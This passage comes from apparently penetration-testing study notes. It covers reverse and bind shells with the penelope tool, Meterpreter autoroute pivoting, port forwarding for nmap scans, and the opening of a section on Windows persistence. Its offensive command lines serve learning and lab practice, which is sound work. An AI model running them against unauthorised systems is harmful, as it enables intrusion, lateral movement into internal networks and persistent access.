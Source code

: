 **Automatic**

```sh
# https://github.com/brightio/penelope
# Currently only Unix shells are fully supported. 
# There's basic support (netcat-like interaction + logging)

./penelope.py <port>               # Reverse shell
./penelope.py -c <target> <port>   # Bind shell
```

## Pivoting & Port forwarding

**Metasploit (meterpreter) - Autoroute**: Anytime we want to contact a machine within one of the networks specified, we will go through meterpreter session and use that to connect to the targets.

```sh
# Find subnet (the 2nd target host may be in other network)
ipconfig                     # IP: 19.9.29.148. Netmask: 255.255.240.0

# Add routes
run autoroute -s <subnet>    # E.g. run autoroute -s 10.10.0.29.0/20

# Displays active routing table
run autoroute -p

# Now you can perform a scan. auxiliary/scanner/portscan/tcp 
```

{{< hint style=notes >}}
**Notes**

* Scanning with metasploit is limited (we can't discover software version etc...) so it's better to use nmap. To do that we need to perform port forwarding.
* Since **target\_sys\_2 does not have a route back to attacker\_sys,** when you user an exploi&#x74;**, use bind\_shell payload.** E.g. `windows/meterpreter/bind_tcp`.
{{< /hint >}}

***

**Port forwarding (meterpreter/metasploit)**

```sh
# Forward remote port to local port. Here, we want to scan the port 80 of the target 2
portfwd add -l 1234 -p 80 -r <target_sys_2_ip>

portfwd list
nmap -sV -sC -p 1234 localhost
```

## Persistence

### Windows

**(1) Metasploit - Module:** Search persistence module (Windows). Ex: `exploit/windows/local/persistence_service` (Requires admin or system privileges). When you want to connect again set a listener to receive the connection
